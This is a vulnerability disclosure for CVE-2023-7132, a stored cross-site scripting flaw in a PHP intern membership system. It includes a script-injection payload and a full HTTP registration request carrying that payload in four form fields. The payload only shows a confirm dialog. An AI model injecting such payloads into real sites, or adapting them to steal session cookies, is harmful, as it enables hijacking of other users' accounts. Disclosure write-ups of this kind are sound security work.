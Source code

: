 # CVE-2023-7132_Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Exploit Title:** CVE-2023-7132_Intern_Membership_Management_System-Stored_Cross_site_Scripting
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/intern-membership-management-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/INTERN_MEMBERSHIP_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.5, Apache 2.4.53
+ **CVE:** CVE-2023-7132

## References: 
+ **CVE-2023-7132:** https://vuldb.com/?id.249135
+ https://www.cve.org/CVERecord?id=CVE-2023-7132

## Description:
Intern Membership Management System 2.0 allows Stored Cross-site Scripting via parameters 'userName', 'firstName', 'lastName', and 'userEmail' in "/intern/user_registration/". Intern Membership Management System is vulnerable to a cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data. An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the user registration page: "http://localhost/intern/user_registration/"
+ Use this payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`
+ Fill 'userName','firstName', 'lastName', '' and 'userEmail' parameters on the form and click 'Register' button.
+ The Stored XSS will be triggered.
+ Alerts will pop-up permanently.
+ Example request for 'userName', 'firstName', 'lastName', and 'userEmail' parameters:
```
POST /intern/user_registration/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://localhost
Connection: close
Referer: http://localhost/intern/user_registration/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

userName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&firstName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&lastName=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&password=&confirm_password=&userEmail=%22%3E%3CScRiPt%3Econfirm%28document.domain%29%3C%2FScRiPt%3Eh0la&gender=Male&terms=on&register-user=Register
```

+ Example payload: `"><ScRiPt>confirm(document.domain)</ScRiPt>h0la`

![2](https://github.com/h4md153v63n/CVEs/assets/5091265/8c711e71-94df-48eb-98af-9b16fbbecd31)
<br>
<br>
![2_xss](https://github.com/h4md153v63n/CVEs/assets/5091265/1a45f2d0-4bfa-4a20-9b7e-59f8d6aba24d)
<br>
<br>
![2_xss-2](https://github.com/h4md153v63n/CVEs/assets/5091265/337eeddd-d66f-4dd9-8887-923637a2b680)

